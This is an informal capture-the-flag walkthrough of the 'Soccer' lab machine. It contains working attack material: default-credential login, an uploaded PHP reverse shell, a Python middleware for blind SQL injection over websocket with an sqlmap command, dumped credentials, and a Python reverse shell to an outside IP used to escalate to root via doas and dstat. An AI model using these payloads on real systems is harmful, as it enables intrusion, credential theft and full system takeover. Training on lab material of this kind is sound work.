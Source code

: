 ## Soccer


nmap reveal 3 ports 

```
Open Ports | Service Running
-----------|-----------------
22         | ssh
80         | http
9091       | xmltec-xmlmail
```

9092 is probably a ws://


in port 80 found a interstening directory /tiny 


and is made by —— © CCP Programmers —— 


find default credentials of CCP 



Default username/password: admin/admin@123 and user/12345


it worked with admin : admin@123



we got shell by uploadinf landum-php-reverse-shell in uploads and call it in http://soccer.htb/tiny/uploads/reverse.php


we impersonate www-data


we find an interesting subdomain in /etc/nginx/sites-enabled 


`soc-player.soccer.htb`

There are some options like Match, Login and Signup option Available

signup and login and i notice in source code that js is connecting in ws://


```
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>

```

We can use the Below python code to direct the request from sqlmap to our localhost taken by this article
[link]https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html



```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass

```


1st we have to run this code and then `sqlmap -u “http://localhost:8081/?id=1" -p “id”`


account takeover success by dumping the database server and we find this creds


```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```




## Player


ssh with player 


and we can privesc 


suid --> doas

in this [article]https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/

```cat /usr/local/etc/doas.conf 

permit nopass player as root cmd /usr/bin/dstat

```

`find / -type d -name dstat  2>/dev/null`

find 2 directories only /usr/local/share/dstat is writable
and we put a python revese shell with name dstat_rs.py with this code 


```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.109",1337));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty; pty.spawn("/bin/sh")
```


so if we `doas -u root /usr/bin/dstat --rs `we can gain access as root

call our code and we can take root flag












